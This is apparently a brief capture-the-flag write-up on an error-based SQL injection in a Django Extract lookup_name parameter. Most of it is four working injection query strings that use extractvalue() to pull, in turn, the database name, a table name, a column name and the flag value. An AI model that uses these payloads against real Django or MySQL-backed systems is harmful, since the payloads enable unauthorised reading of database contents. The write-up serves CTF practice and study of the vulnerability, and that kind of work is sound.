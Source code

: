 # New CVE

It's Django SQL injection.

I use Error-Based SQL injection.

Locate to /test/extract/?lookup_name=year

Use this query string

```
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select database())))-- #cve
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))-- #flag
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1)))-- #flag_value
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select concat(flag_value) from flag)))--
```

![](attachments/1.jpg)
